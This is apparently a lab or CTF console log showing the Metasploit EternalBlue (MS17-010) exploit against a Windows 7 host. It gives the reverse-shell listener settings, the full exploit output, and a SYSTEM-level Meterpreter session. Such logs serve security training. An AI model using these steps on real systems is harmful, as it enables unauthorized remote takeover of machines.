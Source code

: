 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.108.66     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

## EXPLOITING TIME 
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -z 

[*] Started reverse TCP handler on 10.10.108.66:4444 
[*] 10.10.89.41:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.89.41:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.89.41:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.89.41:445 - Connecting to target for exploitation.
[+] 10.10.89.41:445 - Connection established for exploitation.
[+] 10.10.89.41:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.89.41:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.89.41:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.89.41:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.89.41:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.89.41:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.89.41:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.89.41:445 - Sending all but last fragment of exploit packet
[*] 10.10.89.41:445 - Starting non-paged pool grooming
[+] 10.10.89.41:445 - Sending SMBv2 buffers
[+] 10.10.89.41:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.89.41:445 - Sending final SMBv2 buffers.
[*] 10.10.89.41:445 - Sending last fragment of exploit packet!
[*] 10.10.89.41:445 - Receiving response from exploit packet
[+] 10.10.89.41:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.89.41:445 - Sending egg to corrupted connection.
[*] 10.10.89.41:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.89.41
[*] Meterpreter session 1 opened (10.10.108.66:4444 -> 10.10.89.41:49190) at 2022-11-20 09:12:46 +0000
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.89.41:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Session 1 created in the background.


## Checking for sessions 

msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.108.66:4444 -> 10.10.89.41:49195 (10.10.89.41)

## METERPRETER 
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 2
```